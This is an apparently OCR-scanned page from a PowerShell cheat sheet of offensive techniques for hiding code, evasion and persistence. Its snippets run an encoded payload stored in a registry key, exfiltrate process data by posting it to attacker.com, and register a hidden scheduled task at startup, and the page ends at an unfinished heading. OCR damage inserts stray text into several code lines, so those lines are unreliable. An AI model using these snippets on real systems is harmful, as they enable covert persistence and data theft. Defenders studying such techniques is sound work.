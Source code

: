 ### Using PowerShell Classes for CCooddee Hiding

Defines a custom PowerShell class to encapsulate and hide malicious code, making it harder for security toolscode to detect.

```powershell
class HiddenCode { [string] Run() { return 'Hidden command executed' } }; $instance =Code
[HiddenCode]::new(); $instance.Run()
```

### Registry Key Usage for Persistence

Uses the Windows Registry to store and later execute encoded payloads, aiding in persistence and evasion.

```powershell
$path = 'HKCU:\Software\MyApp'; New-Item -Path $path -Force; New-ItemProperty -Path $path -Name
'Config' -Value 'EncodedPayload' -PropertyType String -Force; $regValue = Get-ItemProperty -Path $pathcode
-Name 'Config'; Invoke-Expression $regValue.Config
```

### Out-Of-Band Data Exfiltration

Exfiltrates data out of the target network using web requests, which can bypass traditional data loss prevention mechanisms.

```powershell
$data = Get-Process | ConvertTo-Json; Invoke-RestMethod -Uri 'http://attacker.com/data' -Method Post - Body $data
```

### Using PowerShell to Access WMI for Stealth

Leverages WMI (Windows Management Instrumentation) to execute system queries, which can be less
conspicuous than direct PowerShell commands.

```powershell
$query = 'SELECT * FROM Win32_Process'; Get-WmiObject -Query $query
```

### Scheduled Task for Persistence

Creates a scheduled task to execute PowerShell commands, ensuring persistence and execution even after system reboots.

```powershell
$action = New-ScheduledTaskAction -Execute 'Powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -
Command "YourCommand"'; $trigger = New-ScheduledTaskTrigger -AtStartup; Register-ScheduledTask -Action
$action -Trigger $trigger -TaskName 'MyTask' -Description 'MyDescription'
```

### Using PowerShell to Interact with the Network Quietly
